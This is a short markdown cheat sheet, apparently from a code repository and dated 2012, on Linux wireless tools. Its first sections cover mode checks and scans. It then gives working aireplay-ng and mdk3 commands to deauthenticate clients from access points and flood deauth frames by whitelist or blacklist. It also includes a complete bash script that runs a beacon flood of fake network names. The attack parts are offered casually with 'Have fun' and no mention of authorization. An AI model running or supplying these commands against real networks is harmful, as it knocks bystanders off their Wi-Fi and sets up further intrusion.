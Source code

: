 # Aircrack and Other Wireless Tools

A short list of some things you can do with wireless on a linux box. Have fun.

> [!WARNING]
> This information was written in 2012. It probably needs some updating.

## Determine Modes your NIC is capable of

```bash
airmon-ng (find PHY# for your NIC)
iw phy phy1 info | grep â€“A8 modes
```

## Passive Scan (Should not generate any frames)

```bash
iw dev wlan0 scan passive | grep SSID
```

## Active Scan

```bash
iw dev wlan0 scan | grep SSID
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 channel #
iwconfig wlan0 essid <ssid>
iwconfig wlan0 mode managed
```

## Deauthorization

```bash
iwconfig mon0 channel #
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```

- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- -a 00:14:6C:7E:40:80 is the MAC address of the access point
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- ath0 is the interface name

## Deauthorization with MDK3

```bash
airmon-ng start wlan0
dk3 mon0 d
```

or

```bash
mdk3 mon0 d -w whitelist (deauth everything not listed in file)
```

or

```bash
mdk3 mon0 d -b blacklist (deauth everything listed in file)

d - deauthorization mode
w - whitelist
b - blacklist
```

## Broadcast Network Names with MDK3

```bash
airmon-ng start wlan0
mdk3 mon0 b -c 11 -f ssid_names
```

- b - beacon flood mode
- c - channel
- f - text file with ssid names

Everything you need to run a beacon flood in one script.

```bash
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
```

- [8 Linux Commands: To Find Out Wireless Network Speed, Signal Strength And Other Information]("http://www.cyberciti.biz/tips/linux-find-out-wireless-network-speed-signal-strength.html" )
- [aircrack-ng Deauthorize]("http://www.aircrack-ng.org/doku.php?id=deauthentication" )
- [airmon-ng]("http://www.aircrack-ng.org/doku.php?id=airmon-ng" )
- [iwconfig man page]("http://www.linuxcommand.org/man_pages/iwconfig8.html" )
- [iw command info]("http://wireless.kernel.org/en/users/Documentation/iw" )
